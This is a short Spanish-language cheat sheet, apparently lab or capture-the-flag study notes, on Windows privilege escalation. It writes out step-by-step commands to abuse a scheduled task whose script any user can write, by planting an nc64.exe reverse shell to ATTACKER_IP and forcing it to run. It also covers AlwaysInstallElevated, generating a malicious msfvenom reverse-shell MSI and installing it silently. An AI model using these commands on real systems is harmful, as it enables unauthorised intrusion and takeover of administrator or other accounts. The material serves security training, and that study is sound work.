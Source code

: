 ### Quick Wins para Escalada de Privilegios en Windows

---

#### 1. **Scheduled Tasks**

* Listar todas las tareas:

```cmd
schtasks
```

* Ver detalles de una tarea concreta:

```cmd
schtasks /query /tn vulntask /fo list /v
```

* Parámetros clave:

  * **Task To Run** → ruta del binario o script ejecutado.
  * **Run As User** → bajo qué usuario corre la tarea.

* Ver permisos sobre el binario:

```cmd
icacls C:\tasks\schtask.bat
```

Ejemplo salida vulnerable:

```
BUILTIN\Users:(F)
```

Esto significa que cualquier usuario puede modificar el archivo.

* Insertar payload (reverse shell con nc64.exe):

```cmd
echo C:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

* Atacante inicia listener en Kali:

```bash
nc -lvp 4444
```

* Forzar ejecución de la tarea (en vez de esperar el schedule):

```cmd
schtasks /run /tn vulntask
```

* Si funciona, recibís shell como el usuario definido en *Run As User* (ej. `taskusr1`).

---

#### 2. **AlwaysInstallElevated**

(Método informativo, no explotable en la máquina del room).

* Verificar si las claves de registro están activadas:

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Ambas deben existir y tener el valor `1`.

* Generar un `.msi` malicioso con msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f msi -o malicious.msi
```

* Transferir el `.msi` y ejecutarlo:

```cmd
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

Esto correría con privilegios de administrador y te daría la reverse shell.

---
